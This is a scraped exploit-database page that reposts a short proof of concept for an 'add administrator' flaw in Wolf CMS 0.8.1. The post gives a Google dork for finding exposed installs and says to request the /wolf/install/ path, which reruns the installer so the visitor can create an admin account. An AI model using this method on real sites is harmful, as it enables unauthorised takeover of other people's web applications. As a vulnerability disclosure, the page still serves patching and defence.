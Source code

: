 ```yaml
---
title: Wolf CMS 0.8.1 Add Administrator exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:173923&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-08-04
fetch_date: 2025-10-04T12:00:19.212511
---
```


# Wolf CMS 0.8.1 Add Administrator exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Wolf CMS 0.8.1 Add Administrator

2023-08-03 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:173923
====================================================================================================================================
| # Title : Wolf CMS v0.8.1 Add Admin Vulnerability |
| # Author : indoushka |
| # Tested on : windows 10 Français V.(Pro) / browser : Mozilla firefox 66.0.3(32-bit) |
| # Vendor : http://www.wolfcms.org/ |
| # Dork : © Copyright 2014 Your name Wolf CMS Inside. |
====================================================================================================================================

poc :

[+] Dorking İn Google Or Other Search Enggine.

[+] suffers from an add administrator vulnerability because after the first installation, the installation file repeats the installation process

[+] use payload :/wolf/install/

[+] http://127.0.0.1/wolf/install/

Greetings to :=================================================================
jericho * Larry W. Cashdollar * shadow_00715 * LiquidWorm * Hussin-X * D4NB4R |
===============================================================================
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)